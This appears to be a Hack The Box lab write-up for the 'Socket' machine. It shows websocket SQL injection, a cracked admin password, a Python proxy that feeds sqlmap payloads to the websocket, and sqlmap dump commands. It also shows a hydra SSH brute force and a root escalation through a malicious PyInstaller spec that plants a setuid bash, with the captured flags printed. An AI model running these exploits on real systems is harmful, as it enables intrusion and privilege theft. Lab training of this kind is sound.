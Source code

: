 ```yaml
---
author: Supaaasuge
title: Socket - HTB Writeup
date: 2024-05-04
Lastmod: 2024-05-04
description: "Writeup for the Hack The Box room Socket"
categories:
  - Hack The Box
tags:
  - WebSockets
  - SQLi
---
```

# Socket - HTB Writeup
**Difficulty**: Medium

IP=`10.10.11.206`

After the initial enumeration and finding open ports on `22, 80, 5789`. We can try connecting to websockets running on port `5789` with `wscat`. Very quickly, we find a `sqli` vulnerability within the service. Which allows us the opportunity to get the admin password hash. Which is just simple MD5. After running this through crackstation.com, the password/username is:
`admin:denjanjade122566`.

### SQLMAP through proxy

We already explored the `/version` path and extracted credentials with it due to a SQLi vulnerability, we can try now the same vulnerability but with the `/update` path. In this case instead of manual exploitation we will try to automate the exploitation with the help of a proxy and [sqlmap](https://sqlmap.org/).

#### Proxy
Due to the fact SQLMap only works with GET and POST requests we need to create an abstraction that enables us to interact with the websocket from these types of requests. This we will use a proxy that can be seen in this [blogpost](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html), with some tweaks for our usecase:
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://qreader.htb:5789/update"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace("'",'\\\"') # replacing ' with \\" to avoid breaking JSON structure
	data = '{"version":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
Now if we test the bridge built between the `sqlmap` and the websocket by running both:

```bash
$ python3 proxy.py 
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

```bash
$ sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

Afterr running this, we can see sqlmap successfully interacting with the websocket service.

```bash
sqlmap -u "http://localhost:8081/?id=1" --level=5 --risk=3 --tables
```

Next:
```bash
sqlmap -u "http://localhost:8081/?id=1" --level=5 --risk=3 -T answers --dump
```

I couldn't find much useful information, so I ended up just brute forcing `SSH` using `hydra` and the password found earlier.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p denjanjade122566 ssh://10.10.11.206
```

From this, we find the user `tkeller`.

##### SSH Login as tkeller
```bash
ssh tkeller@10.10.11.206
denjanjade122566
```


```bash
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
tkeller@socket:~$ echo 'import os;os.system("mkdir /tmp/ep && cp /bin/bash /tmp/ep/bash && chmod u+s /tmp/ep/bash")' > b17.spec
tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build b17.spec 
416 INFO: PyInstaller: 5.6.2
416 INFO: Python: 3.10.6
419 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
424 INFO: UPX is not available.
tkeller@socket:~$ ls /tmp/ep
bash
tkeller@socket:~$ /tmp/ep/bash -p
bash-5.1# id
uid=1001(tkeller) gid=1001(tkeller) euid=0(root) groups=1001(tkeller),1002(shared)
bash-5.1# ls /root
cleanup  root.txt  snap
bash-5.1# cat /root/root.txt
a0b47c925a1a1844500df525e4da5c91
bash-5.1# ls
b17.spec  user.txt
bash-5.1# cat user.txt
16c7bda674a650ae654c5b63fd5da842
bash-5.1#
```



